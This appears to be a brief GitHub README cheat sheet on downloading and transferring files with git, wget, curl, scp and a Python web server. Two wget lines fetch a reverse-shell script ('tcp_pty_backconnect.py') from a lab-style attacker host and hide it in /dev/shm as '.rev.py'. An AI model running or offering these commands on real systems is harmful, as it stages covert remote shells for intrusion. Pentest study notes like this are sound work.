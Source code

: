 <h1>$${\color{blue}dowmload}\space {\color{blue}files }$$</h1>



## 1.git usage:

```
git clone + "link of tool"               to download tools for github.
```

## 2.wget usage:

```
wget https://i.gifer.com/HU6r.gif             to download images or gif.
```

```
wget 10.10.14.14:8000/tcp_pty_backconnect.py -O /dev/shm/.rev.py
```

```
wget 10.10.14.14:8000/tcp_pty_backconnect.py -P /dev/shm
```

## 3.Curl

```
curl -O http://192.168.0.101/file.txt
```

## 4.scp usages:

```
# Copy a file:
scp /path/to/source/file.ext username@192.168.1.101:/path/to/destination/file.ext

# Copy a directory:
scp -r /path/to/source/dir username@192.168.1.101:/path/to/destination
```

## 5.Set Up a Simple Python Webserver

```
python -m SimpleHTTPServer 9999
```








